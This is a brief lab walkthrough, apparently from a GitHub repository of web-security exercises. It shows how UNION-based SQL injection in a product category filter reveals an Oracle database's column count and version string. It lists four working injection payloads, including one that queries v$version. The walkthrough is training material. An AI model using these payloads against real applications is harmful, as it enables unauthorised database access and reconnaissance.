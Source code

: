 # **Lab 03 - SQL injection attack, querying the database type and version on Oracle**


## Scenario
***
**SQL injection vulnerability** -> product category filter

**End Goal**                              -> display the database version string
***

## Analysis

### **(1)  Find the number of columns**

* 1st method (internal server error)

```
' ORDER BY 3--
```

* 2nd method

```
' UNION SELECT NULL,NULL from DUAL--
```

**Conclusion:** 2 columns

### **(2) Figure out which columns contain text**

```
' UNION SELECT 'a', 'a'--
```

**Conclusion:** Both columns contain text.

### **(3) Output the version**

```
' UNION SELECT banner, NULL from v$version--
```

**Conclusion:** The version displayed is 

![imagem](https://github.com/VascoLucas01/SQL-Injection-stuff/assets/110473841/5daf8297-096a-4740-b5ed-f0756515effa)


Link: https://docs.google.com/document/d/1bhqZcl5iuyA1EkzqqUqr0tOLyQ7s2viCQQJsPPnuAMM/edit?usp=sharing
